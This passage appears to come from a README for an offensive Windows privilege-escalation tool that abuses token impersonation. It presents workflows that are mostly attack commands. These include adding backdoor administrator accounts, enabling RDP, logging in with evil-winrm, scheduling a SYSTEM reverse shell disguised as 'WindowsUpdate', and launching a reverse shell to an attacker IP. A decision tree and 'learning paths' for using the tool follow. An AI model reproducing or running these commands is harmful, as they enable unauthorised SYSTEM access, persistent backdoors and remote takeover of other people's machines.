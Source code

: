 # Step 4: Use that PID for other operations
.\TokenImpersonate.exe 1444 adduser admin Admin123!

Workflow 10: Establishing Multiple Persistence Methods
Scenario: You want multiple backdoors
powershell# Step 1: Create first admin user
.\TokenImpersonate.exe 540 adduser admin1 Password1!

# Step 2: Create second backup user
.\TokenImpersonate.exe 540 adduser admin2 Password2!

# Step 3: Enable RDP
.\TokenImpersonate.exe 540 rdp

# Step 4: Test both accounts
evil-winrm -i target -u admin1 -p Password1!
xfreerdp /v:target /u:admin2 /p:Password2!

# Step 5: Set up scheduled task for reverse shell (from SYSTEM shell)
schtasks /create /tn "WindowsUpdate" /tr "powershell -e <BASE64>" /sc onlogon /ru SYSTEM
```

---

## 📊 WORKFLOW DECISION TREE
```
Do you have SeImpersonatePrivilege?
├─ YES → Continue
└─ NO → Stop, this tool won't work

What's your goal?
├─ Quick SYSTEM shell
│   └─ .\TokenImpersonate.exe auto
│
├─ Reverse shell
│   └─ .\TokenImpersonate.exe brute Administrator shell <IP> <PORT>
│
├─ Persistence
│   ├─ .\TokenImpersonate.exe 540 adduser hacker Pass123!
│   └─ .\TokenImpersonate.exe 540 rdp
│
└─ Enumeration
    └─ .\TokenImpersonate.exe list
```

---

## 🎓 LEARNING PATHS

### Beginner Path
1. Start with `list` command to understand what's available
2. Use `auto` to get first SYSTEM shell
3. Create one test user with `adduser`
4. Practice with known PIDs before brute forcing

### Intermediate Path
1. Use `list` with filters to find optimal targets
2. Understand which processes are protected
```